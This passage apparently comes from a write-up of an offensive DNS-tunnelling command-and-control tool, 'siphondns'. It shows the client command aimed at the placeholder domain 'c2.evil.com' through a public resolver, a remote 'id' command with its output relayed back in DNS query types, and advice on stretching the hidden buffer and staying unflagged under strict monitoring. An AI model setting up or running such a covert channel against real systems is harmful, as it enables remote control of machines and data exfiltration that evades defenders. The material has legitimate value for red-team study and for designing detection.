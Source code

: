 ```sh
$ ./siphondns-client -domain 'c2.evil.com' -method qtype -resolver 1.1.1.1:53
```

* Now, on the server side, issue a command and observe results on both sides

Server-side:
```sh
cmd> id
Command received
Receiving data.....................................................................................

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(aud),134(scanner),141(kaboxer)
```

Client-side:
```sh
Polling.....OK
Executing command: id ... OK
Sending: 12345 ... OK
Sending: 40568 ... OK
Sending: 52572 ... OK
Sending: 20529 ... OK
Sending: 13060 ... OK

...[SNIP]...

Sending: 32511 ... OK
Sending: 17398 ... OK
Sending: 659 ... OK
Sending: 56789 ... OK
Done in 85 requests.
```

So, the reason why would you want to use this instead ECS technique is the fact that all public DNS servers support this as it's part of the core standard. I guess, there could be some custom implementations that do not handle non-standard QTYPEs, but that's more of an exception than a rule.

Also, as mentioned before, you can trade a little stealth for double the buffer size by including another 2-byte sector into the encoder - QCLASS field.

### Direct connections

The following techniques are less interesting as they require a direct connection to the authoritative server. The upside of this is that the potential buffer size is much bigger, which means a lesser volume of requests and better performance. What you have to keep in mind here is that since we control both sender and receiver, it's quite tempting to start heavily misusing random fields and stuff more data into each request. Keep in mind that part of staying hidden is generating seemingly legit traffic and the more you step outside of standard protocol use, the more likely you are getting flagged.

So, if your environment allows for direct connections to arbitrary DNS servers over 53/UDP, using these techniques might let you fly under the radar, even under strict monitoring.
